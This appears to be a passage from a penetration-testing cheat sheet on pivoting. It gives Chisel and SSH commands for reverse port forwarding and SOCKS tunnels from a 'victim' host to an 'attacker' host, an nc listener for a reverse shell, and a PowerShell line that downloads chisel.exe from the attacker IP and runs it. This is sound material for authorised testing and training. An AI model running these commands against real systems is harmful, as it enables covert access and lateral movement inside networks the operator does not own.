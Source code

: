 ```text
snovvcrash@attacker:$ ./chisel server -p 8000
root@pivot1:# nohup ./chisel client 10.10.13.37:8000 443:127.0.0.1:9001 &
root@pivot1:# netstat -tulpan | grep 443
tcp6       0      0 :::443                 :::*                    LISTEN      18406/./chisel
snovvcrash@attacker:$ rlwrap nc -lvnp 9001
```

### Remote Dynamic Forwarding

* Attacker's IP: `10.10.13.37`
* Victims's IP: `10.10.13.38`

An example how to safely set remote dynamic port forwarding \(SOCKS\) with a builin SSH client.

Generate a dummy SSH key on Victim:

```text
alice@victim:$ ssh-keygen -f dummy_key -t ed25519 -q -N ""
```

Add `dummy_key.pub` contents to `authorized_keys` on Attacker with the following options:

```text
snovvcrash@victim:$ vi ~/.ssh/authorized_keys
from="10.10.13.38",command="echo 'Only port forwarding is allowed'",no-agent-forwarding,no-X11-forwarding,no-pty <DUMMY_KEY_PUB>
```

Connect to Attacker's SSH server from Victim:

```text
alice@victim:$ ssh -fN -R 1080 -oStrictHostKeyChecking=no -oUserKnownHostsFile=/dev/null -i dummy_key snovvcrash@10.10.13.37
```

## Chisel

1. [https://github.com/jpillora/chisel/releases](https://github.com/jpillora/chisel/releases)
2. [https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html\#chisel](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html#chisel)
3. [https://snovvcrash.github.io/2020/03/17/htb-reddish.html\#chisel-socks](https://snovvcrash.github.io/2020/03/17/htb-reddish.html#chisel-socks)
4. Attacker's IP: `10.10.13.37`
5. Victims's IP: `10.10.13.38`

Reverse local port `1111` \(on Victim\) to local port `2222` \(on Attacker\):

```text
$ wget [1/linux]
$ gunzip chisel*.gz && rm chisel*.gz && mv chisel* chisel && chmod +x chisel

$ wget [1/windows]
$ gunzip chisel*.exe.gz && rm chisel*.exe.gz && mv chisel*.exe chisel.exe && upx chisel.exe
$ md5sum chisel.exe

$ ./chisel server -p 8000 -v --reverse

PS > (new-object net.webclient).downloadfile("http://10.10.13.37/chisel.exe", "$env:userprofile\music\chisel.exe")
PS > get-filehash -alg md5 chisel.exe
PS > Start-Process -NoNewWindow -FilePath .\chisel.exe -ArgumentList "client 10.10.13.37:8000 R:127.0.0.1:2222:127.0.0.1:1111"
```
